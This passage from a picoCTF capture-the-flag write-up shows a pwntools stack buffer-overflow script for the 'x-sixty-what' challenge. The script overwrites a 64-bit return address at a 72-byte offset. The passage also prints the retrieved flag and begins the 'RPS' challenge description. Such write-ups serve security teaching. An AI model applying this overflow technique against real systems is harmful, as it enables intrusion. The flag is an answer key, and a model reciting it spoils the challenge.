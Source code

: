 break at vuln+29

![image-20220508163353163](C:\Users\jason\AppData\Roaming\Typora\typora-user-images\image-20220508163353163.png)

![image-20220508155719778](C:\Users\jason\AppData\Roaming\Typora\typora-user-images\image-20220508155719778.png)

![image-20220508155747169](C:\Users\jason\AppData\Roaming\Typora\typora-user-images\image-20220508155747169.png)

`0x7fffffffdf08 - 0x7fffffffdec0 = 72`

Code for `x-sixty-what.py`:

```python
from pwn import *

port = 54083
debug = 0

if not debug:
        p = remote('saturn.picoctf.net', port)
else:
        p = process('./vuln')

print(p.recvline())

offset = 0x7fffffffdf08 - 0x7fffffffdec0        # start of return address - start of buffer
payload = b'A' * offset                         # padding
payload += p64(0x40123b)                        # push rbp

p.sendline(payload)

print(p.recv())
```

Terminal output:

```bash
└─$ python3 x-sixty-what.py
[+] Opening connection to saturn.picoctf.net on port 54083: Done
b'Welcome to 64-bit. Give me a string that gets you the flag: \n'
b'picoCTF{b1663r_15_b3773r_11c407bc}'
[*] Closed connection to saturn.picoctf.net port 54083
```

Flag: `picoCTF{b1663r_15_b3773r_11c407bc}`

## **RPS**

### ***Description***
Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row. <br>
Connect to the program with netcat: <br>
`$ nc saturn.picoctf.net 51420` <br>
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/445/game-redacted.c).
